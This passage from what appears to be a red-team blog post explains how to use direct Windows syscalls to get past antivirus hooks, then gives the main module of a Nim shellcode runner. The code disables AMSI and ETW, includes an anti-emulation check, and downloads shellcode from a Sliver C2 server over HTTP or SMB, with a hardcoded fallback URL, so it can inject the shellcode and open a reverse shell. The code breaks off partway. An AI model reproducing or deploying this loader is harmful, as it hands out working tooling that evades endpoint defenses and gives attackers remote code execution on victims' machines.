 Anyhow, to avoid this AV hooking you can use a technique called 'Syscalls'. Syscalls allow you to call the Native API instead of the Windows API which is normally where the hooks are created by the AV vendors.

So the methods used then become these native ones:

|*Windows API*       |*Native API*            | 
---------------------|------------------------|
|OpenProcess         |NtOpenProcess           |
|VirtualAllocEx      |NtAllocateVirtualMemory |
|WriteProcessMemory  |NtWriteVirtualMemory    | 
|CreateRemoteThread  |NtCreateThreadEx        |


### Coding - Main Module

I now wanted to put all of this to the test and cobble together a Nim shellcode runner to take some remote shellcode from Sliver C2 over http or smb, open a process, inject the shellcode into it and execute the thread to give me my reverse shell back to Sliver.

I started by creating my main module to read in the parameters from the command line, such as whether the payload is accessed via SMB or http, as well as things like the IP or port/share to receive the data.

I also have it decrypting the payload if it arrives encrypted by Sliver, but on speaking to others on the Bishop Fox repo, we think the encryption Sliver can do automatically currently may not be working so I was unable to verify if this works. The code removes the unrequired iv from the first 16 bytes of a Sliver payload then passes it to a decrypt function to decrypt the AES128 CBC encryption that it uses as default.

For now here is the main method created for my purposes:

{% highlight powershell %} 

when isMainModule:

        let key: seq[byte] = toByteSeq("KEYDEFGHIHKLOMNA")
        let iv:  seq[byte] = toByteSeq("IVCDEFGHIHKLOMNA")
        
        if(paramCount() > 0 and $paramStr(1) == "-h"):
            echo ("Usage: <SLIVER or CS or NONE encryption type> -m <MODE> <IP> <SHARE or PORT> <FILE_NAME>")
            echo ("Example: sliver -m smb  192.168.55.15 tools myfile.bin")
            echo ("Example: none   -m http 192.168.55.15 8080  myfile.bin")
            quit()
        
        antiEmulation()
    
        var amsiPatched = patchAMSI()
        echo "[patchAMSI] AMSI disabled: ", amsiPatched

        var etwPatched = patchETW()
        echo "[patchETW] ETW disabled: ", etwPatched

        var shellcode: seq[byte]
        var actual: seq[byte]

        #If no parameters passed use hardcoded http url from the code to be customised per network
        if (paramCount() == 0):    
            var client = newHttpClient()
            var url = 
            "http://10.90.248.103:80/test.bin"
            var response: string = client.getContent(url)
            shellcode = toByteSeq(response)
            runShellcode(shellcode) 

        #Download the payload over http
        elif ($paramStr(3) == "http"):    